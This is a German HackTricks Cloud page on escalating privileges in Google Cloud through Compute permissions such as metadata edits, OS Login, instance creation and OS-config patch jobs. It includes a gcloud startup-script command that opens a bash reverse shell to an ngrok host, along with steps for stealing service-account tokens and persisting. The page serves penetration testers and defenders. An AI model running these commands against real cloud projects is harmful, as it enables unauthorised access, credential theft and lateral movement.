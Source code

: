 # GCP - Berechtigungserhöhung für Compute

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerk) in GCP überprüfen Sie:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Beachten Sie, dass für alle Berechtigungserhöhungsangriffe, die erfordern, dass die Metadaten der Instanz geändert werden (wie das Hinzufügen neuer Benutzer und SSH-Schlüssel), **`actAs`-Berechtigungen über den an die Instanz angehängten SA erforderlich sind**, auch wenn der SA bereits angehängt ist!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Mit dieser Berechtigung können Sie die **Metadaten**-Informationen einer **Instanz ändern** und die **autorisierten Schlüssel eines Benutzers ändern** oder einen **neuen Benutzer mit sudo-Berechtigungen erstellen**. Dadurch können Sie über SSH auf eine beliebige VM-Instanz zugreifen und das GCP-Servicekonto stehlen, mit dem die Instanz ausgeführt wird.\
Einschränkungen:

* Beachten Sie, dass GCP-Servicekonten, die standardmäßig in VM-Instanzen ausgeführt werden, einen **sehr begrenzten Umfang** haben
* Sie müssen in der Lage sein, den SSH-Server zu kontaktieren, um sich anzumelden

Für weitere Informationen darüber, wie Sie diese Berechtigung ausnutzen können, überprüfen Sie:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Sie könnten diesen Angriff auch ausführen, indem Sie ein neues Startskript hinzufügen und die Instanz neu starten:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Diese Berechtigung gibt **die gleichen Privilegien wie die vorherige Berechtigung**, aber nur für bestimmte Instanzen anstelle des gesamten Projekts. Es gelten **die gleichen Exploits und Einschränkungen wie für den vorherigen Abschnitt**.

### `compute.instances.setIamPolicy`

Diese Art von Berechtigung ermöglicht es Ihnen, sich selbst eine Rolle mit den vorherigen Berechtigungen zu **erteilen und Privilegien zu eskalieren, indem Sie sie missbrauchen**.

### **`compute.instances.osLogin`**

Wenn **OSLogin auf der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANZ]`** ausführen und sich mit der Instanz verbinden. Sie **haben keine Root-Rechte** innerhalb der Instanz.

{% hint style="success" %}
Um sich mit dieser Berechtigung erfolgreich in der VM-Instanz anzumelden, benötigen Sie die Berechtigung `iam.serviceAccounts.actAs` über den an die VM angehängten SA.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Wenn **OSLogin auf der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANZ]`** ausführen und sich mit der Instanz verbinden. Sie haben **Root-Rechte** innerhalb der Instanz.

{% hint style="success" %}
Um sich mit dieser Berechtigung erfolgreich in der VM-Instanz anzumelden, benötigen Sie die Berechtigung `iam.serviceAccounts.actAs` über den an die VM angehängten SA.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es ist möglich, **eine virtuelle Maschine mit einem zugewiesenen Service Account zu erstellen und das Token des Service Accounts zu stehlen**, indem auf die Metadaten zugegriffen wird, um Privilegien darauf zu eskalieren.

Das Exploit-Skript für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Wenn Sie die Berechtigungen **`osconfig.patchDeployments.create`** oder **`osconfig.patchJobs.exec`** haben, können Sie einen [**Patch-Job oder ein Deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) erstellen. Dadurch können Sie seitlich in der Umgebung bewegen und Codeausführung auf allen Compute-Instanzen innerhalb eines Projekts erlangen.

Wenn Sie dies manuell ausnutzen möchten, müssen Sie entweder einen [Patch-Job](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) oder ein [Deployment](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json) für einen Patch-Job erstellen:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Um ein Patch-Deployment bereitzustellen:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Automatisierte Tools wie [patchy](https://github.com/rek7/patchy) existieren, um laxen Berechtigungen zu erkennen und automatisch seitlich zu bewegen.

**Sie können dies auch für Persistenz missbrauchen.**

### `compute.machineImages.setIamPolicy`

**Erteilen Sie sich zusätzliche Berechtigungen** für Compute-Images.

### `compute.snapshots.setIamPolicy`

**Erteilen Sie sich zusätzliche Berechtigungen** für ein Disk-Snapshot.

### `compute.disks.setIamPolicy`

**Erteilen Sie sich zusätzliche Berechtigungen** für eine Festplatte.

### Umgehung von Zugriffsberechtigungen

Unter folgendem Link finden Sie einige [**Ideen, wie Sie Zugriffsberechtigungen umgehen können**](../).

### Lokale Privilegieneskalation in GCP Compute-Instanz

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referenzen

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

